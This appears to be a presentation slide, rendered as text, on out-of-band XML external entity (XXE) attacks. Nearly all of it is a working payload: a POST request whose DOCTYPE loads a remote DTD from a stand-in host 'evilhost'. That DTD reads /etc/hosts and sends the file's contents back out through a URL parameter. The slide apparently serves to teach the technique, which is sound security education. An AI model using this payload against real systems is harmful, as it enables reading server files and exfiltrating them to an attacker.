

# Out-of-band
POST /xxe HTTP/1.1

<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://evilhost/trick.xml">
%remote; %intern; %trick;
]>
trick.xml:
<!ENTITY % payl SYSTEM "/etc/hosts">
<!ENTITY % intern "<!ENTITY &#37; trick SYSTEM 'http://evilhost/result?%payl;'>">